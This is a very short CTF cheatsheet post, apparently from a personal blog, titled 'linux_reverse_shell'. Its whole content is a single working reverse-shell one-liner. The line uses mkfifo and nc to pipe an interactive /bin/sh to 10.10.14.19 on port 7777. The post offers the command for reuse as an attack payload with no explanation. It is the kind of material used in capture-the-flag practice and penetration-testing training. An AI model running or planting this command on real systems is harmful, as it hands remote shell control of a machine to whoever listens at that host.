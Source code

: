 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
tags: CTF Common cheatsheet linux "reverse shell"
---
```


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f

